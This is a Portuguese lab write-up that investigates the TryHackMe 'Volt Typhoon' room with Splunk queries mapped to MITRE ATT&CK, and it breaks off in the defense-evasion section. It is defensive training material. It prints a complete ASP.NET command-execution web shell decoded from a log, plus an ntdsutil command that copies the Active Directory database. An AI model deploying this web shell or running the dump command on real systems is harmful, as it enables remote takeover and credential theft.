# 🧾 Write-up - Volt Typhoon 
### Este projeto foca em como investigar a sala Volt Typhoon da plataforma TryHackMe, utilizando consultas Splunk SPL, MITRE ATT&CK e pensamento analítico. 



### 🌪 Quem é Volt Typhoon? 

Segundo o MITRE ATT&CK, Volt Typhoon (G1017), é um ator patrocinado pelo Estado da República Popular da China (RPC) que está ativo desde pelo menos 2021, visando principalmente organizações de infraestrutura crítica nos EUA e seus territórios, incluindo Guam. O direcionamento e o padrão de comportamento do Volt Typhoon foram avaliados como pré-posicionamento para permitir o movimento lateral para ativos de tecnologia operacional (OT) para possíveis ataques destrutivos ou disruptivos. O Volt Typhoon enfatizou a furtividade nas operações usando web shells, binários living-off-the-land (LOTL), atividades práticas de teclado e credenciais roubadas.

#### O que é a técnica Living Off The Land?

É uma técnica de evasão de defesa, onde o atacante, após comprometer um sistema, utiliza binários e ferramentas legítimas do próprio sistema operacional para executar ações maliciosas, dificultando a detecção por antivírus e EDRs que confiam nessas ferramentas.

#### ⚙ Para a execução desse Write-up, foram utilizados apenas a sala Volt Typhoon da plataforma TryHackMe e o Splunk, que também é disponibilizado por eles na plataforma. Nesta sala, é preciso saber Splunk SPL (linguagem de consulta do Splunk) para podermos achar eventos suspeitos e então analisar os logs. Também é necessário utilizar o framework MITRE ATT&CK, para estudarmos o grupo e suas táticas, técnicas e procedimentos.

### 1. Scenario:



### 2. Initial Access



Active Directory Self Service é um serviço de autoatendimento para usuários de um domínio, usado para gerenciamento de senhas. Para esta primeira questão, vamos analisar os logs desse serviço, então o sourcetype na consulta será "adss". Como é dito na questão, o grupo Volt Typhoon geralmente obtém acesso inicial na rede explorando vulnerabilidades em software empresarial, e recentemente foi visto explorando o ADSelfService, a outra pista é que estamos procurando em qual momento a senha do usuário **dean** foi alterada e assumida pelo invasor.

Com essas informações em mãos, iremos fazer a seguinte consulta SPL: 
`index=* sourcetype="adss" username="*dean*" action_name="Password Change" | table timestamp username action_name status`

Obviamente, precisa ser feito um estudo prévio e uma análise do tipo de log que estamos lidando, para saber o que consultar.
Explicando rapidamente a consulta: estamos procurando o usuário **dean**, executando uma ação de troca de senha e organizando a saída em uma tabela com as colunas de tempo, usuário, nome da ação e o resultado da ação.

(`"*"` considera qualquer caractere que tenha no espaço onde se encontra, ou seja, busca o usuário **dean** mesmo se houver algum nome antes ou depois. 
`EX: admin-dean, dean-admin, user-dean-admin`) 



Podemos ver que a resposta da consulta mostrou dois eventos com datas diferentes e com o mesmo usuário `dean-admin` (informação relevante na sala, nome completo do usuário comprometido). Entretanto, apenas um evento consta como status completed, e a data desse evento é a resposta `2024-03-24T11:10:22`. 

A outra questão quer o nome da nova conta de administrador, criada pouco tempo após o comprometimento do usuário dean-admin. 

A consulta: `index=* sourcetype="adss" action_name="Enrollment" | table timestamp username action_name status`

Explicando a consulta: Estamos procurando uma ação de `Enrollment` (registro de novos usuários no adss) e organizando a saída em uma tabela com as colunas de tempo, usuário, nome da ação e o resultado da ação.



A resposta da consulta mostrou esse evento com o usuário `voltyp-admin`, o usuário administrador que foi criado e adicionado ao Active Directory Self Service.

### 3. Execution



WMIC, de forma simplificada, é como se fosse o painél de controle do Windows mas via linha de comando. É uma ferramenta nativa do Windows mas que foi descontinuada e só foi removida permanentemente no Windows 11, seu substituto passa a ser o PowerShell. 
A tarefa diz que o grupo Volt Typhoon aproveitam o wmic ativo no sistema para realizar tarefas como coletar informações e despejar bancos de dados valiosos. A primeira pergunta quer saber o comando que o invasor executou para encontrar informações sobre unidades locais no `server01` e `server02`, vamos usar o nome desses servidores na consulta. 



Vou fazer a seguinte consulta: `index="main" sourcetype="wmic" username="*dean-admin*" ("*server01*" OR "*server02*") | table _time host username command result`

Explicando a consulta: Estamos procurando nos logs do wmic algum evento que venha do usuário dean-admin (a conta comprometida), que contenha a palavra "server01" ou "server02" em algum lugar dele, e organizando a saída em uma tabela com as colunas de tempo, host(máquina), usuário, comando digitado e o resultado.



A resposta da consulta mostrou esse evento vindo da máquina volthunter e o comando digitado pelo atacante para coletar informações sobre unidade de disco local `wmic /node:server01, server02 logicaldisk get caption, filesystem, freespace, size, volumename`, resultado = sucesso.

A segunda pergunta quer saber qual senha o invasor define no arquivo, e o contexto é que o invasor usa o ntdsutil para criar uma cópia do banco de dados do AD, move essa cópia para um servidor web e compacta o banco de dados.

Vou fazer a seguinte consulta: `index="main" sourcetype="wmic" username="*dean-admin*" "*ntdsutil*"`

Explicando a consulta: Estamos procurando nos logs do wmic algum evento que venha do usuário dean-admin (a conta comprometida), que contenha a palavra "ntdsutil" nele.

A resposta da consulta mostrou um evento vindo do usuário dean-admin e da máquina server02 com o comando `wmic process call create "cmd.exe /c mkdir C:\Windows\Temp\tmp & ntdsutil.exe \"ac i ntds\"\"ifm create full C:\Windows\Temp\tmp\temp.dit""`, nesse comando ele cria o diretório `\tmp` dentro de `\Windows\Temp` e depois cria uma cópia completa do banco do AD dentro desse diretório, com o nome de `temp.dit`.

Então vou fazer uma nova consulta usando essa informação: `index="main" sourcetype="wmic" username="*dean-admin*" "*temp.dit*" | table _time host username command result`

Explicando a consulta: Estamos procurando nos logs do wmic algum evento que venha do usuário dean-admin (a conta comprometida), que contenha a palavra "temp.dit" (a cópia) nele, e organizando a saída em uma tabela com as colunas de tempo, host (máquina), usuário, comando e resultado.

A resposta da consulta mostrou três eventos vindo da conta comprometida. Um deles é o que analisamos anteriormente, o segundo foi a ação de mover a cópia para o servidor web, e o primeiro é a compactação do arquivo, onde podemos ver a senha que foi usada `d5ag0nm@5t3r`.



### 4. Persistence



A tarefa quatro diz que o Volt Typhoon frequentemente aplica web shells como mecanismo de persistência, e disfarçam elas como arquivos legitimos, permitindo o controle remoto sobre o servidor e executar os comandos sem ser detectado.
A pergunta diz que o invasor criou uma web shell usando texto codificado em base64 (ofuscação), e quer saber em qual diretório o arquivo da web shell foi colocado. Vamos tentar usar essas informações ao nosso favor, para isso, preciso encontrar algum vestígio de base64 em algum evento.

Consulta: `index="main" sourcetype="powershell" UserId="*dean-admin*" | stats count by CommandLine`

Explicando a consulta: Estamos fazendo uma técnica chamada Stack Counting nos logs do PowerShell, essa técnica consiste em organizar por contagem alguma determinada informação (nesse caso comandos) para achar eventos raros e suspeitos. A consulta pega os logs do powershell que venha do usuário dean-admin (a conta comprometida), e organiza os comandos por contagem de ocorrências.



A resposta da consulta mostram alguns comandos digitados pelo invasor, e um que chama a atenção e foi digitado uma única vez é o `echo`, esse comando serve para exibir valores, textos, etc. na tela (equivalente ao print() do Python), mas também é possível salvar e adicionar textos em arquivos com ele utilizando os operadores `>` ou `>>`. 
Com essa informação em mãos, o próximo passo é investigar mais a fundo para que esse comando foi utilizado.

Vou fazer uma nova consulta: `index="main" sourcetype="powershell" UserId="*dean-admin*" "*echo*"`

Explicando a consulta: Estamos procurando nos logs do PowerShell um evento que venha do usuário dean-admin (a conta comprometida), e que tenha a palavra "echo".



A resposta da consulta, como pode ser vista na imagem acima, mostra o evento em que houve a adição de algo codificado em Base64 em um arquivo que se encontra no caminho `C:\Windows\Temp\ntuser.ini`. A pergunta queria saber em qual diretório o web shell foi colocado, então precisamos decodificar o Base64 para saber se a resposta de fato é `C:\Windows\Temp\`.
Copiando aquela string Base64 e usando um decodificador via terminal ou online, chegamos no seguinte código: 

```
<%@ Page Language="C#" Debug="true" Trace="false" %>
<%@ Import Namespace="System.Diagnostics" %>
<%@ Import Namespace="System.IO" %>
<script Language="c#" runat="server">
void Page_Load(object sender, EventArgs e)
{
}
string ExcuteCmd(string arg)
{
ProcessStartInfo psi = new ProcessStartInfo();
psi.FileName = "cmd.exe";
psi.Arguments = "/c "+arg;
psi.RedirectStandardOutput = true;
psi.UseShellExecute = false;
Process p = Process.Start(psi);
StreamReader stmrdr = p.StandardOutput;
string s = stmrdr.ReadToEnd();
stmrdr.Close();
return s;
}
void cmdExe_Click(object sender, System.EventArgs e)
{
Response.Write("<pre>");
Response.Write(Server.HtmlEncode(ExcuteCmd(txtArg.Text)));
Response.Write("</pre>");
}
</script>
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form id="cmd" method="post" runat="server">
<asp:TextBox id="txtArg" style="Z-INDEX: 101; LEFT: 405px; POSITION: absolute; TOP: 20px" runat="server" Width="250px"></asp:TextBox>
<asp:Button id="testing" style="Z-INDEX: 102; LEFT: 675px; POSITION: absolute; TOP: 18px" runat="server" Text="excute" OnClick="cmdExe_Click"></asp:Button>
<asp:Label id="lblText" style="Z-INDEX: 103; LEFT: 310px; POSITION: absolute; TOP: 22px" runat="server">Command:</asp:Label>
</form>
</body>
</HTML>
```
O código acima se trata de uma web shell em asp.net, que comprova a exatidão da resposta.

### 5. Defense Evasion



Não é novidade que o Volt Typhoon usa técnicas de evasão de defesa para evitar ser detectado, e na tarefa número cinco diz que eles usam métodos como limpeza regular de arquivos, eliminação de logs e reconhecimento completo do ambiente operacional.
A primeira pergunta diz que na tentativa de encobrir os rastros eles limpam os registros RDP, e quer saber qual cmdlet do PowerShell o invasor usa para remover o registro "usado mais recentemente". Para achar o cmdlet, usei a mesma consulta e a mesma técnica de Stack Counting da tarefa anterior.

Consulta: `index="main" sourcetype="powershell" UserId="dean-admin" | stats count by CommandLine`




A resposta da consulta retorna alguns comandos, mas `Remove-ItemProperty` está diretamente relacionado com a limpeza de registros. Vamos investigar mais a fundo!

Consulta: `index="main" sourcetype="powershell" UserId="dean-admin" "*Remove-ItemProperty*"`

